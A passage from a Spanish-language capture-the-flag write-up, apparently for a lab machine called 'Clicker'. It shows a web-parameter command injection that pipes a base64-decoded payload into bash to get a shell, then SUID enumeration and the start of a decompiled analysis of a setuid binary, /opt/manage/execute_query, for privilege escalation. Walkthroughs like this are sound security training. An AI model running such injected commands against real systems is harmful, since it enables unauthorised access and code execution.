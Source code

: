 Y en la URL ponemos: ?comando=echo "<base64>" | base64 -d | bash

Y nos deberia de llegar

![](/assets/img/clicker/5.png)

## www-data -> jack

Si buscamos por binarios SUID, podemos ver el **/opt/manage/execute_query** 

```ruby
find / -perm -u=s -type f 2>/dev/null
/opt/manage/execute_query
```

Al hacerle un **file** podemos ver que es un binario ELF:

```ruby
execute_query: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cad57695aba64e8b4f4274878882ead34f2b2d57, for GNU/Linux 3.2.0, not stripped
```
Tambien existe un txt que dice:

```
Web application Management

Use the binary to execute the following task:
	- 1: Creates the database structure and adds user admin
	- 2: Creates fake players (better not tell anyone)
	- 3: Resets the admin password
	- 4: Deletes all users except the admin
```

### Analisis del binario

En mi caso suelo usar binaryninja

Primero el binario verifica si existe un argumento cuando fue ejecutado

```c
if (argc s<= 1)
    puts(str: "ERROR: not enough arguments")
rax_2 = 1
```

Este argumento se almacena en **rax_6** cuando se usa la funcion **atoi**

```c
int32_t rax_6 = atoi(nptr: argv[1])
```
